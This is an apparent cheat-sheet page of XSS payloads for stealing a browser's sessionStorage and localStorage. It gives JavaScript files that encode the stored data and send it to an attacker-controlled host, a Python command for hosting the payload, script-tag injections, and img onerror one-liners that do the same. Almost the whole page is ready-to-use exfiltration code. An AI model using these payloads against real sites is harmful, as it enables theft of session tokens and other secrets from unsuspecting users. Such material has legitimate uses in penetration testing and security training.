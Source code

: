```yaml
---
title: Stealing Local Secrets
layout: default
parent: XSS
has_children: false
nav_order: 2
---
```


<h1><b>SessionStorage</b></h1>
(data is kept only until tab is closed)

<h2>Hosting method:</h2>

1. First create a file name sessionstorage.js with the following content:
```
let data = JSON.stringify(sessionStorage)
let encodedData = btoa(data)
new Image().src = "http://domain/?ss=" + encodedData;
```

2. Host the file using Python:
`python3 -m http.server 80`

3. Inject the payload:
`<script src="http://ownIP/sessionstorage.js"></script>`

4. Previous code on sessionstorage.js:
```
let data = JSON.stringify(sessionStorage)
let encodedData = encodeURIComponent(data)
fetch("http://domain/?ss=" + encodedData)
```

<h2>One liner alternative:</h2>

1. Replace domain with domain you control:
`<img src="x" onerror="fetch('http://domain/ls=?'+encodeURIComponent(JSON.stringify(sessionStorage)))">`

2. Note that can use either single quote or a backslash to escape the double quotes inside double quotes. Also if in URL need to encode the plus using %2b.


<h1><b>LocalStorage</b></h1>
(data is kept until it is explicitly deleted)

<h2>Hosting method:</h2>

1. First create a file name localstorage.js with the following content:
```
let data = JSON.stringify(localStorage)
let encodedData = btoa(data)
new Image().src = "http://domain/?ls=" + encodedData;
```

2. Host the file using Python:
`python3 -m http.server 80`

3. Inject the payload:
`<script src=http://ownIP/localstorage.js></script>`

4. Previous localstorage.js:
```
let data = JSON.stringify(localStorage)
let encodedData = encodeURIComponent(data)
fetch("http://domain/?ls=" + encodedData)
```

<h2>One liner alternative:</h2>

1. Replace domain with domain you control:
`<img src="x" onerror="fetch('http://domain/ls=?'+encodeURIComponent(JSON.stringify(localStorage)))">`

2. Note that can use either single quote or a backslash to escape the double quotes inside double quotes. Also if in URL need to encode the plus using %2b.